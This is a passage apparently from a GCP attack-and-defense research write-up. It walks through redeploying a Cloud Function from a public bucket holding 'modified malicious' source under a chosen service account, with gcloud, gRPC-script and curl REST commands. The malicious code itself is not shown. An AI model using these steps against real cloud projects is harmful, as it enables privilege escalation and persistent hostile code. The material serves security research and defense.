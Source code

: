 ```python
#filename: requirements.txt
requests
```

We will keep the non malicious code the same.

```python
#Non-Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    request_json = request.get_json()
    if request.args and 'message' in request.args:
        return request.args.get('message')
    elif request_json and 'message' in request_json:
        return request_json['message']
    else:
        return f'Hello World!'
```

```python
#filename: requirements.txt
requests
```
Once again, deploy the Cloud Function but this time with the above modified "Malicious Code". Pack the Modified Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account you have full access to and make it public. Copy the gsutil link of the modified malicious zip file.

Once you have the gsutil URI of the modified malicious zip file go ahead Deploy a Function via any method (gCloud or Cloud Function API)

Command to [deploy Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-gcloud):
```powershell
gcloud functions deploy <function-name> --runtime=python38 --source=<gs-link-of-modified-malicious-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>
```

Command to [deploy Cloud Function via Cloud Function API (gRPC)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-grpc):
```powershell
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function-name> --gsutil-uri <gs-link-of-modified-malicious-sourcecode> --function-entry-point <entry-point> --service-account <sa-account> --deploy
```

Command to [deploy Cloud Function via Cloud Function API (REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-rest):
```powershell
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"name\":\"projects/<project-id>/locations/<region>/functions/<function-name>\",\"entryPoint\":\"<function-entrypoint>\",\"runtime\":\"python38\",\"serviceAccountEmail\":\"<service-account-email>\",\"sourceArchiveUrl\":\"<gs-link-of-modified-malicious-sourcecode>\",\"httpsTrigger\":{}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions?alt=json
```
